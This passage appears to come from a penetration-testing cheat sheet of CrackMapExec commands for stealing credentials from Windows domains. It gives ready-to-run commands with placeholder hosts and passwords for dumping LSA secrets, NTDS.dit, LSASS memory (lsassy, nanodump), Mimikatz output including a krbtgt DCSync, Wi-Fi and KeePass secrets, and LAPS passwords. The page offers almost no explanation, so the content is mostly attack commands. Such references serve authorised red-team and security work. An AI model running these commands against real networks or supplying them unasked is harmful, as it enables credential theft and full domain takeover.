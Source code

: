 ```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

#### Dump NTDS.dit

```
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

#### Dump LSASS

```
cme smb 192.168.255.131 -u administrator -p pass -M lsassy
```

#### Dump LSASS using nanodump

```
cme smb 192.168.255.131 -u administrator -p pass -M nanodump
```

#### Mimikatz

```
cme smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

#### Mimikatz DCSYNC

```
cme smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
```

#### Dump WIFI Password

```
cme smb <ip> -u user -p pass -M wireless
```

#### Dump KeyPass

```
cme smb <ip> -u user -p pass -M keepass_discovery
cme smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
```

## LAPS

```
cme smb <ip> -u user-can-read-laps -p pass --laps
cme smb <ip> -u user-can-read-laps -p pass --laps <name if not administrator>
cme winrm <ip> -u user-can-read-laps -p pass --laps
```
